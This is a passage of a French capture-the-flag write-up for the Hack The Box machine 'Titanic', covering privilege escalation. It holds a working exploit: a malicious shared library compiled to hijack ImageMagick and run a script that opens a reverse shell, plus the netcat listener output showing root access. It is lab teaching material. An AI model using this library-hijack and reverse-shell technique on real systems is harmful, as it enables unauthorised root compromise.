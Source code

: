 ## Privilege Escalation

### Exploitation : Image Magick 
https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

```bash
developer@titanic:/opt/app/static/assets/images$ find / -writable -type d 2>/dev/null | head
/sys/fs/cgroup/user.slice/user-1000.slice/user@1000.service
/sys/fs/cgroup/user.slice/user-1000.slice/user@1000.service/app.slice
/sys/fs/cgroup/user.slice/user-1000.slice/user@1000.service/app.slice/dbus.socket
/sys/fs/cgroup/user.slice/user-1000.slice/user@1000.service/app.slice/gpg-agent.service
/sys/fs/cgroup/user.slice/user-1000.slice/user@1000.service/app.slice/dbus.service
/sys/fs/cgroup/user.slice/user-1000.slice/user@1000.service/init.scope
/opt/app/static/assets/images
/opt/app/tickets
/home/developer
/home/developer/.gnupg
```
On trouve ces dossiers:
/opt/app/static/assets/images
/opt/app/tickets

Avec ce script:

```bash
developer@titanic:/opt/app/static/assets/images$ cat /opt/scripts/identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

On recherche une CVE pour magick, on trouve que notre version est vulnerable. On trouve le github, on suit les instructions.
On construit une fausse librairie qui va executer du code en tant que root. il execute un shell.sh que j'ai defini et qui ouvre un revershell.
```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
##include <stdio.h>
##include <stdlib.h>
##include <unistd.h>

__attribute__((constructor)) void init(){
    system("/opt/app/static/assets/images/shell.sh");
    exit(0);
}
EOF
```

```bash
┌──(kali㉿kali)-[~/htb/Titanic]
└─$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.55] 51460
sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
c304.....3cde
```

## Tips
- ATTENTION !! Le piège : on ne trouve rien avec `gobuster dns`. A l'avenir, il faut prioriser ABSOLUMENT `ffuf` pour trouver les sous-domaines !!